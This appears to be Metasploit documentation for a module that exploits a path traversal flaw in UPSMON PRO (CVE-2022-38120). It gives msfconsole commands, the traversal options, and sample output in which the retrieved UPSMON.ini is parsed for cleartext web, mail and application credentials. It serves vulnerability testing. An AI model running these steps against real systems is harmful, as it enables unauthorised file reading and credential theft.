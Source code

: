 ## Vulnerable Application

This module exploits a path traversal vulnerability in UPSMON PRO <= v2.61 (CVE-2022-38120) to read arbitrary files from the system.
By default, the configuration file will be retrieved, which contains the credentials (CVE-2022-38121) for the web service, mail server,
application, and SMS service.
However, any arbitrary file can be specified.

## Testing

The software can be obtained from
[the vendor](https://www.upspowercom.com/PRO-Windows.jsp).

The web server is disabled by default and needs to be enabled first. In the menu, go to Configuration > UPS Connect, and enable the Web
Server checkbox.
By default, the server listens on TCP port 8000 on all network interfaces and runs in the context of NT AUTHORITY\SYSTEM.

**Successfully tested on**

- UPSMON PRO v2.61 on Windows 22H2
- UPSMON PRO v2.57 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Enable the Web Server module
3. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/gather/upsmon_traversal
msf auxiliary(gather/upsmon_traversal) > set RHOSTS <IP>
msf auxiliary(gather/upsmon_traversal) > run
```

This should return the UPSMON PRO configuration file, UPSMON.ini, which contains various cleartext credentials. Any files retrieved will
be stored as loot.

## Options

### FILE
The file to be retrieved from the file system. By default, this is the UPSMON PRO configuration file, UPSMON.ini. However, any arbitrary
file can be specified.

Example: /Users/Public/UPSMON-Pro/UPSMON.ini

### DEPTH
The traversal depth. The FILE path will be prepended with ../ * DEPTH.

## Scenarios

Running the exploit against v2.61 on Windows 22H22 should result in an output similar to the following:

```
msf auxiliary(gather/upsmon_traversal) > run
[*] Running module against 192.168.137.218

[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] File retrieved: ../../../../Users/Public/UPSMON-Pro/UPSMON.ini
[*] UPSMON.ini specified, parsing credentials:
[*] SMTP: (not configured)
[*] Port: 25
[*] Email UserName: (not configured)
[*] Email Password: (not configured)
[*] WebServer UserName: UPSMON
[*] WebServer Password: UPSMON
[*] Main AppPassword: UPSMON
[*] SMS UserName: (not configured)
[*] SMS Password: (not configured)
[*] UPS Name: (not configured)
[*] Phone Number: (not configured)
[*] File saved as loot.
[*] Auxiliary module execution completed
```

The file will be stored as loot:

```
msf auxiliary(gather/upsmon_traversal) > loot

Loot
====

host             service  type                         name                                 content     info                                               path
----             -------  ----                         ----                                 -------     ----                                               ----
192.168.137.218           upsmonpro.file               /USERS/public/upsmon-pro/upsmon.ini  text/plain  File retrieved through UPSMON PRO path traversal.  /home/foo/.msf4/loot/20250502145519_default_192.168.137.218_upsmonpro.file_396058.txt
```
